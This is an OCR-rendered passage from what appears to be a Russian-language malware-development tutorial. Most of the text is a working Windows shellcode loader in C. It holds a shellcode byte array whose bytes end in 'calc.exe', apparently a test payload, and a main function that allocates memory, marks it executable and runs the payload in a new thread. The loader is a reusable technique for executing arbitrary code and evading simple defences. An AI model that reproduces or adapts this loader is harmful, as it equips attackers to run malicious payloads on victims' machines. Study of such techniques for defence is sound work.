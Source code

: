 ```cpp
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Итак, у нас есть одна главная функция `main(void)`:

![main function](./images/2/2021-09-04_11-40.png){width="80%"}
